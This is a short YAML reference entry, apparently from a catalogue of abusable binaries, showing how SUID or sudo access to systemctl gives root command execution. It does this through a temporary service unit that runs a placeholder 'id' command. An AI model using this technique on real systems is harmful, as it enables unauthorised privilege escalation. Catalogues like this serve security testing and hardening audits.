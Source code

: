 ```yaml
---
functions:
  suid:
    - code: |
        TF=/tmp/test.service
        echo '[Service]
          Type=oneshot
          ExecStart=/bin/sh -c "id >> /tmp/output"
          [Install]
          WantedBy=multi-user.target' > $TF
        systemctl link $TF
        systemctl enable --now $TF
  sudo:
    - code: |
        TF=/tmp/test.service
        echo '[Service]
          Type=oneshot
          ExecStart=/bin/sh -c "id >> /tmp/output"
          [Install]
          WantedBy=multi-user.target' > $TF
        sudo systemctl link $TF
        sudo systemctl enable --now $TF
---
```

